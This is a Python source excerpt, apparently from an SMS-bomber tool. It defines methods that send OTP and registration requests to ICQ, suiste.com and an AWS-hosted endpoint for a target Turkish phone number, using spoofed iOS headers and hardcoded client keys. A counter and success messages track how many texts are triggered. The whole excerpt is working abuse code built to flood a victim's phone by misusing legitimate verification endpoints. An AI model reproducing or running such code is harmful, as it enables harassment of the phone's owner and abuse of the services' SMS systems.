
    #icq.net
    def Icq(self):
        try:
            url = f"https://u.icq.net:443/api/v90/smsreg/requestPhoneValidation.php?client=icq&f=json&k=gu19PNBblQjCdbMU&locale=en&msisdn=%2B90{self.phone}&platform=ios&r=796356153&smsFormatType=human"
            headers = {"Accept": "*/*", "Content-Type": "application/x-www-form-urlencoded", "User-Agent": "ICQ iOS #no_user_id# gu19PNBblQjCdbMU 23.1.1(124106) 15.7.7 iPhone9,4", "Accept-Language": "en-US,en;q=0.9", "Accept-Encoding": "gzip, deflate"}
            r = requests.post(url, headers=headers, timeout=6)
            if r.json()["response"]["statusCode"] == 200:
                print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> u.icq.net")
                self.adet += 1
            else:
                raise
        except:
            print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> u.icq.net")
          

    #suiste.com
    def Suiste(self):
        try:
            url = "https://suiste.com:443/api/auth/code"
            headers = {"Accept": "application/json", "Content-Type": "application/x-www-form-urlencoded; charset=utf-8", "Accept-Encoding": "gzip, deflate", "Mobillium-Device-Id": "56DB9AC4-F52B-4DF1-B14C-E39690BC69FC", "User-Agent": "suiste/1.6.16 (com.mobillium.suiste; build:1434; iOS 15.7.7) Alamofire/5.6.4", "Accept-Language": "en"}
            data = {"action": "register", "gsm": self.phone}
            r = requests.post(url, headers=headers, data=data, timeout=6)
            if r.json()["code"] == "common.success":
                print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> suiste.com")
                self.adet += 1
            else:
                raise
        except:
            print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> suiste.com")
                
    
    #KimGbIster
    def KimGb(self):
        try:
            r = requests.post("https://3uptzlakwi.execute-api.eu-west-1.amazonaws.com:443/api/auth/send-otp", json={"msisdn": f"90{self.phone}"}, timeout=6)
            if r.status_code == 200:
                print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> 3uptzlakwi.execute-api.eu-west-1.amazonaws.com")
                self.adet += 1
            else:
                raise
        except:
            print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> 3uptzlakwi.execute-api.eu-west-1.amazonaws.com")
            
